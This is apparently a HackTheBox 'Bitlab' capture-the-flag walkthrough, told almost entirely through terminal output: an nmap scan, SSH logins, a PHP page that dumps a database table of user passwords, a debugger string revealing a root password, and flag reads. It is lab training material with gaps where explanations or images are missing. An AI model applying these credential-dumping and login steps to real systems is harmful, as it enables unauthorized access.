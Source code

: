 ```yaml
---
title: "HackTheBox - Bitlab"
date: 2010-01-01T01:01:56+01:00
toc: false
images:
tags:
  - hackthebox
  - ctf
---
```


[![Kurzes Video Walkthrough ohne Erklärungen](http://img.youtube.com/vi/YOUTUBE_VIDEO_ID_HERE/0.jpg)](http://www.youtube.com/watch?v=YOUTUBE_VIDEO_ID_HERE)

root@kali:~# nmap -sV -sC 10.10.10.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-14 14:15 CET
Nmap scan report for 10.10.10.114
Host is up (0.019s latency).
Not shown: 998 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
| 256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_ 256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open http nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.61 seconds
root@kali:~# ssh clave@10.10.10.114
The authenticity of host '10.10.10.114 (10.10.10.114)' can't be established.
ECDSA key fingerprint is SHA256:hNHxoptKsWqkzdME7Bfb+cGjskcAAGySJazK+gDDCHQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.114' (ECDSA) to the list of known hosts.
clave@10.10.10.114's password:
Last login: Tue Jan 14 12:14:39 2020 from 10.10.14.67
clave@bitlab:~$ cat user.txt
1e3#########ZENSIERT#########154
clave@bitlab:~$ clear




<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");










http://10.10.10.114/profile/m10x.php

Array ( [0] => Array ( [id] => 1 [username] => clave [password] => c3NoLXN0cjBuZy1wQHNz== ) )




root@kali:~# scp clave@10.10.10.114:/home/clave/RemoteConnection.exe ./
clave@10.10.10.114's password:
RemoteConnection.exe 100% 14KB 287.3KB/s 00:00
root@kali:~# ollydbg RemoteConnection.exe
0009:err:ole:CoGetClassObject class {00000320-0000-0000-c000-000000000046} not registered
0009:err:ole:CoGetClassObject no class object {00000320-0000-0000-c000-000000000046} could be created for context 0x80000001
0009:err:ole:marshal_object couldn't get IPSFactory buffer for interface {00000131-0000-0000-c000-000000000046}
0009:err:ole:CoGetClassObject class {00000320-0000-0000-c000-000000000046} not registered
0009:err:ole:CoGetClassObject no class object {00000320-0000-0000-c000-000000000046} could be created for context 0x80000001
0009:err:ole:marshal_object couldn't get IPSFactory buffer for interface {00000122-0000-0000-c000-000000000046}
0009:err:ole:StdMarshalImpl_MarshalInterface Failed to create ifstub, hres=0x80004002
0009:err:ole:CoMarshalInterface Failed to marshal the interface {00000122-0000-0000-c000-000000000046}, 80004002
002a:err:console:AllocConsole Can't allocate console

























root@kali:~# 0033FE60 00411C18 ASCII "-ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^""
[1] 23151
-bash: eD4^: command not found
root@kali:~#
root@kali:~# -bash: 0033FE60: command not found

[1]+ Exit 127 0033FE60 00411C18 ASCII "-ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j
root@kali:~# ssh root@10.10.10.114
root@10.10.10.114's password:
Last login: Tue Jan 14 13:44:48 2020 from 10.10.15.14
root@bitlab:~# cat root.txt
8d4#########ZENSIERT#########87c
root@bitlab:~#